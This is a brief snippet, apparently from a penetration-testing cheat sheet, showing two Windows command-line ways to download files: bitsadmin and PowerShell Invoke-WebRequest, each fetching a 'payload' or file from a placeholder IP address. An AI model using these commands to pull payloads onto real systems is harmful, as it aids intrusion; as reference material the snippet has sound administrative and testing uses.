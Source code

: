 Download files from CLI in Windows
------------------------------------
bitsadmin /transfer wcb /priority high https://xxx.xxx.xxx.xxx/payload.txt C:\payload.txt
powershell Invoke-WebRequest http://xxx.xxx.xxx.xxx/file.txt -O c:\file.txt

